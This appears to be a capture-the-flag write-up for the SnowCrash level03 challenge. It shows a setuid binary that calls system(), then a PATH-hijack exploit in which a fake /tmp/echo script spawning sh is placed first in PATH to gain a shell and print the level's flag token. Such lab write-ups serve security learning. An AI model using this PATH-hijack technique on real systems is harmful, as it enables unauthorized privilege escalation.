 ### Exploit

```
level03@SnowCrash:~$ nm level03
[...]
080484a4 T main
         U setresgid@@GLIBC_2.0
         U setresuid@@GLIBC_2.0
         U system@@GLIBC_2.0
```

level03@SnowCrash:~$ id
uid=2003(level03) gid=2003(level03) groups=2003(level03),100(users)

```
level03@SnowCrash:~$ touch /tmp/echo
level03@SnowCrash:~$ cat /tmp/echo
#!/bin/sh
sh
level03@SnowCrash:~$ chmod 775 /tmp/echo
level03@SnowCrash:~$ export PATH=/tmp:$PATH
level03@SnowCrash:~$ ./level03
$ getflag
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
         
    
